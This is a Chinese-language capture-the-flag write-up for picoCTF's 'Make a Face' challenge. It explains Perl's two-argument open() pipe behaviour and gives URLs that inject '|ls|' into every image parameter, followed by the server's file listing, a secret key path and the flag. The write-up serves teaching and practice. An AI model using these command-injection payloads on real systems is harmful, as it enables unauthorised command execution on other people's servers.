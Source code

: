 # Make a Face
[網站](http://makeaface.picoctf.com/)由perl寫成，查perl安全問題：
```
open (FILEHANDLE, "filename");

If the filename begins with "|", the filename is interpreted as a command to which output is to be piped, and if the filename ends with a "|", the filename  is interpreted as a command which pipes output to us.
```
 * 所以把Head,...,Eyes任何一個填入```|ls|```能看到server執行ls的結果，在瀏覽器打入
 * ```http://makeaface.picoctf.com/index.cgi?Head=2.bmp&Hair=2.bmp&Nose=1.bmp&Mouth=3.bmp&Eyes=|ls|```
 * 成功執行ls：
```bash
BE0 
1memhea3.bmp
head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp
```
 * 但沒有flag。重新看原始碼，發現參數間是用&連接的做bit運算：
```perl
print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
```
 所以把每個值都要填入|ls|：```http://makeaface.picoctf.com/index.cgi?Head=|ls|&Hair=|ls|&Nose=|ls|&Mouth=|ls|&Eyes=|ls|```
  * 成功得到secret_key：
```
SECRET_KEY_2b609783951a8665d8c67d721b52b0f8
css.css
eyes1.bmp
eyes2.bmp
eyes3.bmp
eyes4.bmp
hair0.bmp
hair1.bmp
hair2.bmp
head1.bmp
head2.bmp
head3.bmp
head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp
```
 * 把secret_key打開：```http://makeaface.picoctf.com/SECRET_KEY_2b609783951a8665d8c67d721b52b0f8```

 成功得到```flag = why_did_we_stop_using_perl_again?```
